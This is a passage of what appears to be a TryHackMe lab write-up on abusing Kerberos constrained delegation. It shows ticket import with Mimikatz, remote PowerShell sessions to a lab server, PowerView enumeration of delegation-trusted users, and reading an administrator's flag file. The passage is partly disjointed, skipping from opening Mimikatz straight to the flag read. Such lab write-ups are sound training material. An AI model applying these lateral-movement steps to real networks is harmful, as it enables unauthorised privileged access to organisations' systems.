 You can exit Mimikatz and run `klist` if you want to verify that the tickets were imported. Now that the tickets are imported, we can finally create our PSSession on THMSERVER1:

```shell-session
mimikatz # exit
Bye!
PS C:> New-PSSession -ComputerName thmserver1.za.tryhackme.loc

 Id Name ComputerName ComputerType State ConfigurationName Availability
 -- ---- ------------ ------------ ----- ----------------- ------------
 1 WinRM1 thmserver1.z... RemoteMachine Opened Microsoft.PowerShell Available


PS C:\> Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami
za\t1_trevor.jones
```

With the exploitation of Constrained Delegation, we now have privileged access to THMSERVER1!


## Practical

---

Inside of our ssh session for the tier 2 admin, we can start with:

```powershell
Import-Module C:\Tools\PowerView.ps1
Get-NetUser -TrustedToAuth
```

![Pasted image 20250527125242.png](../../../IMAGES/Pasted%20image%2020250527125242.png)

Now we can proceed with opening up mimikatz:


[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> type C:\Users\Administrator\Desktop\flag2.txt